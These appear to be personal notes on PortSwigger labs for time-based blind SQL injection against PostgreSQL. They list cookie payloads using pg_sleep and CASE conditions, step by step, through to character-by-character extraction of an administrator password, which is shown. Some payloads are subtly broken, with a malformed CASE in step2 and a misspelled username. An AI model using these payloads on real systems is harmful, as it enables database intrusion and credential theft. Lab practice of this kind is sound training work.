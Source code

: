 # Lab: Blind SQL injection with time delays

```sql
TrackingId=38zUDWnGufT7WaQl'||pg_sleep(10)--
```

pg_sleep is used becuase of postgres data base
[[portswigger_wsa/sql_cheet_sheet)

# Lab: Blind SQL injection with time delays and information retrieval

### step1

```sql
TrackingId=38zUDWnGufT7WaQl'||pg_sleep(10)--
```

took 10 second
-> output -> true

### step2

```sql
TrackingId=38zUDWnGufT7WaQl'||(SELECT WHEN CASE (1=2)) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
```

it will execute in few seconds

### step3

change case value

```SQL
TrackingId=38zUDWnGufT7WaQl'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```

### step4

```sql
TrackingId=38zUDWnGufT7WaQl'||(SELECT CASE WHEN (username='adminstrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

### step5

```sql
TrackingId=38zUDWnGufT7WaQl'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

or(both is correct below is url encode)

```sql
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

### step6

```sql
TrackingId=38zUDWnGufT7WaQl'||(SELECT CASE WHEN (username='adminstrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

### step7

```sql
TrackingId=CEcXYgMnxua7ak2P'||(SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

or

```sql
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

```
1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20
7  0  a  5  f  o  l  c  j   j  q   y   s   j    j  e   u   o   1   0
70a5folcjjqysjjeuo10
```

![screenshot](./images/time_delay.png)
